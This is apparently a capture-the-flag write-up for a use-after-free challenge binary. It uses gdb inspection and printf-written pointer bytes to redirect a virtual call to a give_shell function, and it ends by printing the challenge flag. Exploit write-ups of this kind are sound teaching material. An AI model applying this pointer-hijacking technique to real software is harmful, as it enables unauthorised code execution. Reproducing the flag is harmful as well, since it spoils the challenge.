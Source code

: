 In the original code:
`=> 0x0000000000400fd8 <+276>:   mov    rdx,QWORD PTR [rax]`

- The code in the original file is a bit diffrent, it uses the rdx register instead. I set a break point and looked inside of rax - the address was "0x401578" - let's try building a payload around it

(0x401578 - 0x8 ofcourse)
`!printf "%b" '\x70\x15\x40\x00\x00\x00\x00\x00' > /tmp/data.txt`

- Using the following payload, I managed to run `introduce()`.

- Ok so I did the following:
```
I know that in the wild the pointer is 0x401578

using p/x *0x401578 I got the value 0x4012d2.
using x/i 0x4012d2 which is introduce!

substructing 8 from this address I get 0x401570
using p/x *0x401570 - I get 0x40117a
using x/i 0x40117a - I get give_shell!!
```

So now let's build the payload, because there is add 0x8 before the call, I need to substruct 8 from 0x401570

- Before the jackpot - there was something odd about the size I need to read from my text file in order to "steal" the old pointer of the Man. I used 42 bytes on the code I compiled but on the original one 16 bytes worked :)

- So let's use the following payload now.
# Building the payload
`!printf "%b" '\x68\x15\x40\x00\x00\x00\x00\x00' > /tmp/data.txt`

```bash
/home/uaf/uaf 16 /tmp/data.txt
# (Running the binary - Man and Woman are malloced)

3 - free
# (The addressed allocated are now free to use)

2 - after
# (Allocating data on the old woman pointer)

2 - after
# (Allocating data on the old man pointer)
1 - use

# (Trying to run man.introduce() - the custom crafted payload is pointing to give_shell instead)
```
- SHELL!!!!
`cat flag ;)`

# FLAG: yay_f1ag_aft3r_pwning
# pwned.